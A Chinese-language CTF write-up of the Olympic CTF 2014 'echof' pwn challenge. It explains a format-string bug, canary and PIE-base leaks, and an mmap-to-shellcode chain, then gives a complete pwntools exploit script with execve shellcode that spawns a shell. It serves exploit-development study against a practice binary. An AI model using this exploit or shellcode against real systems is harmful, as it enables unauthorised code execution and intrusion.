 ```yaml
---
title: olympic ctf echof(PWN 300)
author: rk700
layout: post
redirect_from: /writeup/2015/01/02/olympic-ctf-echof
tags:
  - exploit
---
```


2015年第一帖。

以往的CTF的题目质量还是很高的，所以打算稍微练一练这些题目。

这道[题目](https://github.com/ctfs/write-ups/tree/a7ab67c0233da01f96047fe04d829731876438ad/olympic-ctf-2014/echof)，存在一处format string attack。主要是在`strncpy`后添加结尾的`null`字符时，如果长度足够，就会把之后用到的格式字符串地址最低byte设为0，而那里正好指向我们提供的内容，于是接下来的`sprintf`造成漏洞。

但是，在开始时会先检查我们提供的内容是否包括字符`n`，这就使得`%n`这种方式不可用了。于是format string就只能用来读内存。另一方面，由于`sprintf`的目标地址在栈上，所以这里可以溢出覆盖返回地址。由于有canary保护，我们需要读canary的内容，以用来后面溢出能通过检查。

这道题有一个与以往不同之处，就是可执行文件是PIE的，即程序自身的代码地址也会变化，而且以往那样直接在GOT固定位置得到函数地址的方法行不通了。比如说，通过调试发现，`call mmap`在我的机子上会成为调用相对`eip`偏移。

于是我们还需要读内存，得到`.text`的基地址。幸运的是，在栈上发现了指向某条指令的地址，于是通过读那里的内容，就可以获得`.text`段的地址了。进一步，通过读取`call mmap`指令处的偏移，就可以得到函数`mmap`的地址。

获得这些需要的地址后，接下来需要溢出改返回地址了。而不幸的是，发现canary的最低byte总是0，这就导致`strncpy`时会截断，格式字符串不完整了。后来发现，由于在`ret`之前有好几轮`sprintf`，于是可以先使用错误的canary，即最低byte非0而其他位正确，然后利用`sprintf`会把结尾的byte设为0，再一次溢出并只修改canary的最低位成为0。这样在最后的`ret`时canary就符合要求了。

同样地，在后面调用`mmap`时，参数也有很多`null`字符，这里也用和canary一样的思路写0到栈。具体调用时，尝试发现有些参数里不包括0也是可以的，比如`flag`。如下的调用

<pre>mmap(0x11111000, 0x01011000, 0x01010107, 0x01010122, -1, 0x01011000);</pre>

就会映射出

<pre>0x11111000 0x12122000 rwxp      mapped</pre>

综上，大概思路就是，先得到一段`rwx`的指定区域，然后`read`把shellcode读到那里，最后跳到那里执行。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

def sendNull(conn, payload):
    chunks = payload.split("\x00")
    clen = len(chunks)
    print "%d chunks" % clen
    for i in range(clen):
        plo = "\xaa".join(chunks)
        size1 = 0x80 - 5 - len(plo)
        size2 = 0x100-size1
        fmt = "%%%dx" % size2
        if not (len(fmt)+size1+len(plo) == 0x80):
            print "%d %s %d" % (size1, fmt, len(plo))
            exit (1)

        pl = "b"*size1 + fmt + plo
        conn.recvuntil("msg?\n")
        conn.send(pl)
        chunks = chunks[:-1]

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    ip = "127.0.0.1"#sys.argv[1]
    conn = remote(ip, 1111)

    c1 = "%78$08x%80$08x"

    payload1 = "letmein\n" + c1 + "a"*(0x80-len(c1));


    conn.send(payload1)
    conn.recvuntil("msg?\n")

    canary = int(conn.recvn(8),16)
    print "canary is %s" % hex(canary)
    eip = int(conn.recvn(8),16)
    print "eip is %s" % hex(eip)
    base = eip & 0xfffff000
    print "base is %s" % hex(base)

    call_mmap = base + 0xae5
    call_read = base + 0xa78
    c2 = "%44$sABCD\n%45$s"
    payload2 = c2 + "a"*(0x80-len(c2)-8) + p32(call_mmap+1) + p32(call_read+1)

    conn.send(payload2)
    conn.recvuntil("msg?\n")
    mmap_off = unpack(conn.recvn(4))
    mmap = (call_mmap + 5 + mmap_off) & 0xffffffff
    print "mmap is %s" % hex(mmap)

    conn.recvuntil("ABCD\n")
    read_off = unpack(conn.recvn(4))
    read = (call_read + 5 + read_off) & 0xffffffff
    print "read is %s" % hex(read)

    pop = base+0x8b5 #pop 7 dword and ret
    target = 0x11111000
    payload2 = p32(canary) + "a"*12 + p32(mmap) + p32(pop) + p32(target) + p32(0x01011000) + p32(0x01010107) + p32(0x01010122) + p32(0xffffffff) + p32(0x01011000) + p32(0xffffffff) + p32(read) + p32(target+1) + p32(0) + p32(target+1) + p32(0xffffffff)

    sendNull(conn, payload2)

    conn.recvuntil("msg?\n")
    conn.send("n")

    shellcode = "\x31\xc0\x50\x89\xe2\x66\x68\x2d\x70\x89\xe1\x50\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"
    conn.send(shellcode)

    conn.interactive()
{% endhighlight %}

我还考虑过这道题能不能利用内存泄露用pwntools得到`system`函数的地址，然后调用的方式。但那样的话还需要把`/bin/sh`放到指定的某处，而且限制16次可能不够找`system`，还需要再返回main来一遍。后来就没有试了。
